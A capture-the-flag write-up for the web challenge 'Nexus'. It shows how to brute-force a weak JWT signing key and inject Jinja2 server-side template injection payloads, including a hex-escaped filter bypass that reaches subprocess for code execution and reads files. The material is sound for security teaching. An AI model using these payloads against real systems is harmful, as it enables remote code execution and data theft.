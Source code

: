 <font size='10'>Nexus</font>

16<sup>th</sup> May 2024

Prepared By: `Muhammad Saad Akhtar`

Challenge Author(s): `Muhammad Saad Akhtar`

Category: `Web`

Difficulty: <font color='yellow'>Not too easy</font>

<br><br>

## Credits

I made this challenge after playing [this](https://github.com/UofTCTF/uoftctf-2024-chals-public/tree/master/Web/No%20Code) and tweaking a bit of functionality and UI. Also I made it a bit easier by removing some important filters so original idea and credit goes to this challenge's author. 

## Description

- In this challenge, the participants need to analyze the functionality of the web app. They first need to exploit the JWT weak signing key to inject `SSTI` in the JWT cookie. Finally, they need to bypass some basic `SSTI` filtering to get code execution on the server.

## Skills Required

- Information Gathering
- Researching Skills
- A little bit of python know how (otherwise you'll get it with googling)

# Solution

The participants are provided with a URL to access the application.

Upon visiting the URL, we can see a login page.

![img](assets/0.png)

Since we don't have any creds, let's sign up and then login.

![img](assets/1.png)

We just get a dashboard and that's it. Nothing out of ordinary, we just have a jwt cookie after login and that's it.

Looking at the JWT token in [jwt.io](https://jwt.io).

![img](assets/2.png)

In the payload, it has our username. And the same username is also displayed on the dashboard above.

We might have some sort of injection here but we can't just modify the payload of jwt. We need the signing key first.

For this, we can try brute-forcing JWT signing key. If it is a weak one, we'll get it right.

We can use `john` for cracking and `rockyou.txt` or `jwt.secrets` wordlist to brute-force the signing key.

```bash
┌──(kali㉿kali)-[~/…/unused/nexus/writeup/test]
└─$ echo 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNhYWQifQ.DHCqZk9wK2pKvO-ymWuVz0qhhdHzrn2s_PG-bHTZ32Q' > jwt.hash
```

![img](assets/3.png)

We got the key `changethis`.

Now we can use this key to manipulate the username and try different injection attacks.

Trying out `SSTI`, we can do with a payload like `{{7*7}}`.

![img](assets/4.png)

Then we try visiting `/dashboard` with this token.

![img](assets/5.png)

And we got `49` indicating, we got `SSTI`.

Now from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2), we can try a simple `SSTI` payload for RCE.

First let's try this one: `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`

Testing this payload, we get a blocked message.

![img](assets/6.png)

This indicates that there's some sort of filtering being done on the backend for `SSTI`.

We can try different payloads and as a result, it would return us with the blacklisted characters.

With trial and error, the final working payload would be as follows.

```python
{{self|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('subprocess')|attr('run')('id', shell=True)}}
```

In this payload, we're using `\x5f` in replacement of `_`. 

There are more ways to solve this as well but this one would work just fine.

Above payload runs `id` command using `subprocess` module. It won't show the output but we can get a success message that our command ran successfully.

Inject the payload in JWT and notice, we need to escape backslashes to fit in the payload.
![img](assets/7.png)

![img](assets/8.png)

We can also confirm this with `curl` or `wget` as it is somewhat blind.

We can try crafting a reverse shell with our available whitelisted characters or since the goal of this challenge is to read the flag, I'll do it with `subprocess.getoutput()`

```python
{{self|attr('\\x5f\\x5finit\\x5f\\x5f')|attr('\\x5f\\x5fglobals\\x5f\\x5f')|attr('\\x5f\\x5fgetitem\\x5f\\x5f')('\\x5f\\x5fbuiltins\\x5f\\x5f')|attr('\\x5f\\x5fgetitem\\x5f\\x5f')('\\x5f\\x5fimport\\x5f\\x5f')('subprocess')|attr('getoutput')('cat /*.txt')}}
```

Using `/*.txt` as the word `flag` is also blacklisted.

![img](assets/9.png)


### Challenge Flag

flag{im_n3ver_7rusting_f1rewalls_4gain!}